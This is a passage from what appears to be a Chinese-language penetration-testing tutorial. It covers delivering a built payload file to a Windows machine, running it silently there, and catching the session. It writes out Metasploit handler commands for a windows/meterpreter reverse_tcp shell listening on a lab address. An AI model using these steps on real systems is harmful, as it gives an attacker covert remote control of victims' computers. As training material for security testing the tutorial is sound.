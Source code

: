 #### 5.5.2.2.**发送payload文件**

这里将构建号的payload文件发送到Windows系统中。

![img](assets/wps32-1690339599842-31.jpg) 

#### 5.5.2.3.**监听payload文件**

msfconsole

use exploit/multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 192.168.10.20

set LPORT  4444

set ExitOnSession false

exploit -j -z

![img](assets/wps33-1690339599842-33.jpg) 

#### 5.5.2.4.**运行payload文件**

这里运行payload文件可以直接双击运行，或者cmd运行等，均可以实现运行，但是运行并不会弹出窗口等，但其实以及运行了。

#### 5.5.2.5.**上线payload**

这里通过sessions命令可以看到机器上线了。

![img](assets/wps34-1690339599842-34.jpg) 
